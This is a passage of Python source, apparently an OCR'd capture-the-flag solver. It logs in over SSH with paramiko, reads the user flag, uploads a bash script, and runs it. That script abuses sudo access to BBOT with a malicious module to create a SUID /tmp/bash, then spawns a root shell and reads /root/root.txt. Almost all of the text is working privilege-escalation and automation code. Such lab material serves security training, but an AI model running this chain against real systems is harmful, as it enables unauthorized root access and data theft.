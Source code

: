 ```python

echo "Executing malicious BBOT module..."
sudo /usr/local/bin/bbot -p /tmp/myconf.yml -m whois2

if [ -u /tmp/bash ]; then
    echo -e "\\n[+] SUID bash created successfully!"
    echo -e "[*] Spawning root shell...\\n"
    /tmp/bash -p
else
    echo -e "\\n[-] Exploit failed - SUID bash not created"
    exit 1
fi
"""

# Create an SSH client
client = paramiko.SSHClient()
client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

try:
    # Connect to SSH
    client.connect(hostname, port, username, password)
    print("[+] Connected to the SSH Shell")

    # Read user.txt
    sftp = client.open_sftp()
    print("[+] Reading user flag...")
    with sftp.open(file_path, 'r') as file:
        userflag = file.read().decode().strip()
        print("User.txt : " + userflag)

    # Upload Bash script
    print("[+] Uploading exploit script...")
    with sftp.open(remote_script_path, 'w') as remote_file:
        remote_file.write(bash_script)

    # Set execute permissions
    print("[+] Setting execute permissions...")
    client.exec_command(f"chmod +x {remote_script_path}")

    # Open an interactive shell
    print("[+] Running the exploit script interactively...")
    shell = client.invoke_shell()
    shell.send(f"bash {remote_script_path}\n")  # Execute the script

    # Wait for the exploit prompt and send Enter
    time.sleep(3)  # Adjust if needed
    shell.send("\n")
    print("[+] Sent Enter key to proceed...")

    # Allow time for the exploit to complete and drop into the new shell
    time.sleep(5)

    # Run "cat /root/root.txt" inside the root shell
    print("[+] Attempting to read root flag...")
    shell.send("cat /root/root.txt\n")
    time.sleep(2)  # Allow time for the command to execute

    # Read the output and extract the root flag
    output = shell.recv(4096).decode()
    print(output, end="")  # Print output

    # Drop into interactive root shell
    print("[+] Exploit executed. Dropping into interactive shell (bash-5.2#)...")
```